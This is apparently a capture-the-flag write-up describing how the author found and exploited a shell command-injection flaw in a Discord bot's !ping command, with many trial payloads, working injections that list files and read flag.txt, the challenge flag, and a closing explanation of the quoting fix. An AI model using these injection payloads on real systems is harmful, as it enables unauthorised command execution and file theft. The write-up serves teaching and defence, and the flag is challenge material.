



# The White Rabbit

 



## Discovering the bot

In this challenge, we must exchange messages with a Discord bot in DM.



Our only command is `!ping`, and it probably does something like `ping challenge$userInput.root-me.org` which is really unsafe because `$userInput` can contain arbitrary bash code.

But before that, I will just try to see what happens when I try to use the bot as intended.

`!ping 01` tells me that `challenge01.root-me.org` is up, and `!ping /` tells me that `challenge/.root-me.org` is down, with an empty error log. Weird, isn't it?

Now let's start our exploit with a simple `!ping ;ls`


It doesn't seem to work... maybe the command really is escaped?

## Trying multiple payloads

You may completely skip this part if you don't want to understand how stupid I can be when I've been trying my hardest for 2 days.

In fact, there is a simple mistake in the last command that lead me to believe that there was some kind of injection check.

I've tried many payloads before losing my mind and going full stupid.



Other examples include:

- `!ping <(ls)` - I don't really know what I was expecting here, apart from an error

- `!ping !ping ls`

- `:ping ELELELE` - Yep there's a typo

- `!flag`

- `!ping pong`

- `!ping ! && ls` - It only took the `!` part, since it takes only argument 1.

- ``!ping `ls```

- `!ping $(ls)`

- `!ping &&test`

- `!ping "; echo "`

And this, my friends, is when I realized something was going on.

`challenge; echo .root-me.org is down :(`

I can put spaces in my commands! And the `"` are stripped. I won't admit it, but I didn't realize the `"` were just to delimit the arguments that had spaces.

### Stupidity v2

Here is another list of me trying to break something I didn't fully understand:

- `ping ";echo`

- `!ping ";echo`

- `!ping "+"test`

- `!ping "."test`

- `!ping ""test`

- `!ping "`

- `!ping ";`

- `!ping ";#`

- `!ping ";//`

## Abandonning stupidity

When the time has come to stop doing things randomly, I realized something interesting. When running `!ping ".feelzor.ovh challenge"`, I had a different answer than before:

```bash
challenge.feelzor.ovh challenge.root-me.org is down :(
:x: Error log : PING www.root-me.org (212.129.28.16) 56(124) bytes of data.

--- www.root-me.org ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

That is interesting. The error log outputs the standard output, which means two things:

- Anything printed in the error output will be lost forever;

- If I want to see logs, I **must** produce an error somewhere. Here, for example, the real command is `ping challenge.feelzor.ovh challenge.root-me.org`, asking to ping `challenge.root-me.org` **through** `challenge.feelzor.ovh`, which will always fail since my server isn't configured for that.

**What did I miss during my first `ls` payload?**

If we write the command entirely, what has been run is `ping challenge;ls.root-me.org`, and the command `ls.root-me.org` does not exist. In fact, the only thing missing here is a space.

I've struggled a long time with erroneous payloads and was still convinced that there was some kind of protection, so I came up with my "super-protection-evading command-injection":

```bash
!ping ".feelzor.ovh le.root-me.org || ls . 1>&2; ls . "
```

Yup, there are too many things that aren't necessary. I first thought that `error log` could just show the error output, even if I had proof that it wouldn't, and decided to add another `ls` on the standard output because it wouldn't work otherwise.

That being said, I had the list of files, and there is a `flag.txt` file.

```bash
!ping ".feelzor.ovh le.root-me.org || ls . 1>&2; cat flag.txt "
```

This command works and finally shows our flag!

**Flag: `RM{D1sc0rD_t0_c0mm4nd_1nj3cTi0n}`**

## Improving my payload

I was not satisfied with what I had done because at that point I still didn't understand what did and didn't work and why. I wanted to go a little bit further and read all my commands once again, and with the previous explanations it must be clearer.

In fact, there are no protections in place, just a space that I was missing the whole time. With that in mind, we can just add a space to the first payload and have a much cleaner exploit.

```bash
!ping "; cat flag.txt "
```

## What went wrong and how to fix it

The problem in this bot is that it takes the user input and directly uses it in a shell command: `ping challenge$userInput.root-me.org`, and what `bash` (and other shells) does is a simple replace, which means that spaces are considered as multiple arguments, `;` as the end of a command, etc.

My final payload gives the command `ping challenge; cat flag.txt .root-me.org`, which makes an error (`challenge` is not a proper domain name, `ping` is unable to find it), and then executes the `cat` command.

A simple way to prevent this behaviour is to surround the variable with quotes, with the command `ping challenge"$userInput".root-me.org`. This way, the variable will stay inside the quotes and won't execute another command.
